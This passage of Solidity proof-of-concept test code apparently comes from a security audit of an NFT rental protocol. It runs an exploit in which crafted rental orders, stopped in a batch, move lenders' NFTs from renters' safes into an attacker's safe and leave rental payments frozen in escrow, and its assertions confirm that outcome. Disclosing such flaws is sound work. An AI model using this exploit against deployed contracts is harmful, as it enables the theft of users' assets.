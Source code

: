 ```solidity
            rentalOrders[i] = rentalOrder;
        }

        // ------ Execute exploit ------ //

        // call `stopRentBatch(rentalOrders)`. All fields pertain to our soon-to-be created orders, except for the `rentalWallet`, which is pointing to the victim's safe
        // attackerContract.stopRental(rentalOrder[0], stop);
        // attackerContract.stopRental(rentalOrder[1], stop);
        attackerContract.stopRentals(rentalOrders, stop);
        
        // ------ Loop over all victimRentalOrders to verify end state ------ //

        // speed up in time past the victimRentalOrders' expiration
        vm.warp(block.timestamp + 750);

        for (uint256 i; i < victimRentalOrders.length; i++) {
            Item memory victimItem = victimRentalOrders[i].items[0];

            // verify that our attackerContract's safe is now the owner of the NFT
            if (victimItem.itemType == reNFTItemType.ERC721) {
                assertEq(MockERC721(victimItem.token).ownerOf(victimItem.identifier), attackerSafe);
            }
            if (victimItem.itemType == reNFTItemType.ERC1155) {
                assertEq(MockERC1155(victimItem.token).balanceOf(attackerSafe, victimItem.identifier), victimItem.amount);
            }

            // verify that our rentalOrder has been stopped (deleted from storage)
            RentalOrder memory rentalOrder = rentalOrders[i];
            bytes32 rentalOrderHash = create.getRentalOrderHash(rentalOrder);
            assertEq(STORE.orders(rentalOrderHash), false);

            // lender attempts to stop victimRentalOrder, but call fails (renter's safe is no longer the owner of the NFT)
            vm.startPrank(victimRentalOrders[i].lender);
            vm.expectRevert();
            stop.stopRent(victimRentalOrders[i]);
            vm.stopPrank();

            // verify that victimRentalOrder has not been stopped (is still in storage)
            bytes32 victimRentalOrderHash = create.getRentalOrderHash(victimRentalOrders[i]);
            assertEq(STORE.orders(victimRentalOrderHash), true);
        }

        // renters' rental payments to lenders' is still in the escrow contract
        assertEq(erc20s[0].balanceOf(address(ESCRW)), uint256(victimRentalOrders.length * 100));

        // verify that our attackerContract received its rental payment back from all the created malicious orders
        assertEq(erc20s[0].balanceOf(address(attackerContract)), victimRentalOrders.length);

        // End result:
        // 1. Lenders' NFTs were stolen from renters' safe wallet and is now frozen in the attackerContract's safe wallet
        // 2. Renters' rental payments to Lenders are frozen in the Escrow contract since their rentals can not be stoppped
    }

    function _createAndFulfillVictimOrders() internal returns (
        Order memory order, 
        OrderMetadata memory metadata,
```